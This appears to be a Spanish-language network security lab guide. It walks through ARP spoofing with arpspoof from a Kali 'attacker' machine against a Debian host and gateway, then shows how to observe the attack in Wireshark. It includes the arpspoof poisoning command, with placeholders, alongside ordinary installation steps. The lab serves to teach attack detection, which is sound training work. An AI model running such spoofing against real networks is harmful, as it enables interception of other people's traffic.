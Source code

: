 Para realizar esta práctica, utilizaremos arpspoof. Esta herramienta se usa para enviar paquetes ARP falsificados a la red, haciendo que un dispositivo (como la máquina Debian) crea que la dirección MAC del atacante (Kali Linux) es la dirección MAC del gateway (router). Esto se puede verificar observando las tablas ARP en la máquina Debian antes y después de ejecutar arpspoof.

#### En la Máquina Kali Linux (Atacante):

* [ ] Instalar arpspoof:

```bash
sudo apt update
sudo apt install dsniff
```

> *Nota: arpspoof es parte del paquete dsniff..*

 * [ ] Verifica si arpspoof está instalado:

 ```bash
sudo arpspoof -h
```

* [ ] Ejecuta arpspoof para envenenar las tablas ARP de la máquina Debian y el gateway:

```bash
sudo arpspoof -i <interfaz_kali> -t <IP_debian> <gateway>
```

* -i <interfaz_kali>: Especifica la interfaz de red desde la cual se enviarán los paquetes ARP, por ejemplo, eth0.
* -t <IP_debian>: Especifica la dirección IP de la víctima (la máquina Debian en este caso).
* <gateway>: Especifica la dirección IP del gateway. (inicialmente configurado en el archivo /etc/network/interfaces, es el mismo para ambas máquinas)

#### Monitorear con Wireshark en la Máquina Debian (Servidor Web):

Wireshark es ideal para analizar el tráfico de red, identificar posibles ataques y monitorear la seguridad en un entorno de red.

* [ ] Instalar Wireshark:

```bash
sudo apt update
sudo apt install wireshark
```

Durante la instalación, es posible que te pregunten si los usuarios no root deberían poder capturar paquetes. Selecciona "Sí". Si completaste la instalación sin esta configuración, puedes configurarlo más tarde con:

```bash
sudo dpkg-reconfigure wireshark-common
```

* [ ] Agrega tu usuario al grupo de Wireshark:

```bash
sudo usermod -aG wireshark $USER
```
